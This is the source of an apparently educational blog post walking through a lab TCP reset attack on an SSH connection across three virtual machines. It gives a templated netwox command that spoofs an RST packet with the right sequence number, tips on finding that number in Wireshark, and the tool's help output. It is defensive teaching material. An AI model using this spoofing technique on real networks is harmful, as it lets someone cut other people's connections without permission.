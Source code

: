 ```yaml
---
layout: post
title: "TCP Reset Attack on an SSH Connection"
date: 2021-05-25 09:00:00 -0500
categories: [Network-Security-&-Defense, Attacks]
tags: [network, security, ssh, tcp, attack]
---
```

### Overview
In this demo, we will break an SSH connection between the victim and the ssh server.

### Setup
For this attack you will need 3 Linux VMs.
* VM1 as the victim (SSH client).
* VM2 as the ssh server.
* VM3 as the attacker.

The 3 VMs reside in the same network.

### Attack
The attacker, mimicking the server, only needs to send one RST packet to perform the attack. The requirement is, the attack needs to use ```netwox 40``` to perform this attack.

The command should be in this format:

```bash
sudo netwox 40 --ip4-src source_ip --ip4-dst destination_ip --tcp-src source_port --tcp-dst destination_port --tcp-rst --tcp-seqnum sequence_number.
```

> **Note**: The attacker needs to use Wireshark to find out the parameter information for the above command: pay attention to the last packet sent from the server to the client, it will tell you what the next sequence number should be.
>
>See here: http://cs.boisestate.edu/~jxiao/cs333/images/tcpreset/nextseqnumber.png.
>
>Also, the next sequence number is always = current sequence number + TCP segment len.

> **Note2**: You can also mimick the client. The attack works in either direction.

Run ```bash netwox 40 --help ``` for help information, like below.

``` bash
seed@VM:~$ netwox 40 --help
Title: Spoof Ip4Tcp packet
Usage: netwox 40 [-c uint32] [-e uint32] [-f|+f] [-g|+g] [-h|+h] [-i uint32] [-j uint32] [-k uint32] [-l ip] [-m ip] [-n ip4opts] [-o port] [-p port] [-q uint32] [-r uint32] [-s|+s] [-t|+t] [-u|+u] [-v|+v] [-w|+w] [-x|+x] [-y|+y] [-z|+z] [-A|+A] [-B|+B] [-C|+C] [-D|+D] [-E uint32] [-F uint32] [-G tcpopts] [-H mixed_data]
Parameters:
 -c|--ip4-tos uint32            IP4 tos {0}
 -e|--ip4-id uint32             IP4 id (rand if unset) {0}
 -f|--ip4-reserved|+f|--no-ip4-reserved IP4 reserved
 -g|--ip4-dontfrag|+g|--no-ip4-dontfrag IP4 dontfrag
 -h|--ip4-morefrag|+h|--no-ip4-morefrag IP4 morefrag
 -i|--ip4-offsetfrag uint32     IP4 offsetfrag {0}
 -j|--ip4-ttl uint32            IP4 ttl {0}
 -k|--ip4-protocol uint32       IP4 protocol {0}
 -l|--ip4-src ip                IP4 src {172.16.77.129}
 -m|--ip4-dst ip                IP4 dst {5.6.7.8}
 -n|--ip4-opt ip4opts           IPv4 options
 -o|--tcp-src port              TCP src {1234}
 -p|--tcp-dst port              TCP dst {80}
 -q|--tcp-seqnum uint32         TCP seqnum (rand if unset) {0}
 -r|--tcp-acknum uint32         TCP acknum {0}
 -s|--tcp-reserved1|+s|--no-tcp-reserved1 TCP reserved1
 -t|--tcp-reserved2|+t|--no-tcp-reserved2 TCP reserved2
 -u|--tcp-reserved3|+u|--no-tcp-reserved3 TCP reserved3
 -v|--tcp-reserved4|+v|--no-tcp-reserved4 TCP reserved4
 -w|--tcp-cwr|+w|--no-tcp-cwr   TCP cwr
 -x|--tcp-ece|+x|--no-tcp-ece   TCP ece
 -y|--tcp-urg|+y|--no-tcp-urg   TCP urg
 -z|--tcp-ack|+z|--no-tcp-ack   TCP ack
 -A|--tcp-psh|+A|--no-tcp-psh   TCP psh
 -B|--tcp-rst|+B|--no-tcp-rst   TCP rst
 -C|--tcp-syn|+C|--no-tcp-syn   TCP syn
 -D|--tcp-fin|+D|--no-tcp-fin   TCP fin
 -E|--tcp-window uint32         TCP window {0}
 -F|--tcp-urgptr uint32         TCP urgptr {0}
 -G|--tcp-opt tcpopts           TCP options
 -H|--tcp-data mixed_data       mixed data
 --help2                        display help for advanced parameters
```
